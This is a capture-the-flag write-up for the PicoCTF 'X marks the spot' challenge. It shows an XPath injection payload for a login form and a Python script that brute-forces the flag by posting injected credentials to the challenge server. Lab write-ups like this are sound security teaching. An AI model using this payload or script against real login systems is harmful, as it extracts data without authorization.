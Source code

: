 # PicoCTF (X marks the spot)

## Challenge: 

![challenge description](img/xmarksthespot/chall%20desc.png)
> The hint is XPATH.

## Solution:

The challenge requires us to use XPath injection to brute-force for the flag.

Going to the provided URL and giving wrong credentials, it showed us an error message "Login Failure". 

![Login Failure](img/xmarksthespot/incorrect%20creds.png)

Next, I decided to research more on XPATH and came across the following from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction). 

![hacktricks](img/xmarksthespot/hacktricks.png)

Changing the above payload slightly to `' or //*[contains(.,"p")] or 'x'='`, this allows us to compare all the entries in the database with the character "p". The webpage now gave us an output "You're on the right path."

![right path](img/xmarksthespot/right%20path.png)

Now, I decided to write a Python script to brute force the flag.

```
import requests
import string

acceptable_chars = string.printable

url = "http://mercury.picoctf.net:53735/"

flag = "picoCTF{"

while "}" not in flag:
    for char in acceptable_chars:
        flag += char
        print(flag)
        name = f"""' or //*[contains(.,"{flag}")] or 'x'='"""
        pw = "irrelevant"
        creds = {"name": name, "pass": pw}
        x = requests.post(url, data=creds)
        if "on the right path." in x.text:
            continue
        else:
            flag = flag[:-1]
            print(flag)

print(flag)
```

Running the script, we got our flag! :')

![flag](img/xmarksthespot/flag.png)



